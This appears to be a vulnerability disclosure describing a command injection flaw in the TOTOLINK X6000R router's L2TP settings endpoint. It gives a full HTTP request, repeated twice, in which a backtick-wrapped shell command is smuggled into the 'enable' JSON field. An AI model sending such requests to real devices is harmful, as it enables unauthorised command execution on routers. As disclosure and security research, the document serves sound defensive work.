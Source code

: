 # Summary
There is a command execution vulnerability in TOTOLINK X6000R(https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html).

Affected component is "/advance/l2tp.html", and vulnerable paramter is **"enable"**.

# Details
Web front-end interface:
![image](https://github.com/user-attachments/assets/f988b107-ec6e-4f29-8749-0e34f26d919b)

Capture the packet and do a blind test directly, we edit the value of `enable` to a command to execute:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=D526E9BD192CC73D HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 230
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/l2tp.html?token=D526E9BD192CC73D
Priority: u=1

{"enable":"`ls >/web/poc_l2tp_enable.txt`","sip":"10.8.0.2","eip":"10.8.0.51","server":"10.8.0.1","priDns":"8.8.8.8","secDns":"10.20.0.1","mtu":"1450","mru":"1450","ipsecL2tpEnable":"0","ipsecPsk":"","topicurl":"setL2tpServerCfg"}
```
![image](https://github.com/user-attachments/assets/57cd0070-5d49-4dd4-b3a3-ee141e7996b0)

![image](https://github.com/user-attachments/assets/9b1342b7-4a6c-4edd-9502-865e671e292c)



# PoC
Capture the packet and do a blind test directly, we edit the value of `enable` to a command to execute:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=D526E9BD192CC73D HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 230
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/l2tp.html?token=D526E9BD192CC73D
Priority: u=1

{"enable":"`ls >/web/poc_l2tp_enable.txt`","sip":"10.8.0.2","eip":"10.8.0.51","server":"10.8.0.1","priDns":"8.8.8.8","secDns":"10.20.0.1","mtu":"1450","mru":"1450","ipsecL2tpEnable":"0","ipsecPsk":"","topicurl":"setL2tpServerCfg"}
```
![image](https://github.com/user-attachments/assets/57cd0070-5d49-4dd4-b3a3-ee141e7996b0)

![image](https://github.com/user-attachments/assets/9b1342b7-4a6c-4edd-9502-865e671e292c)
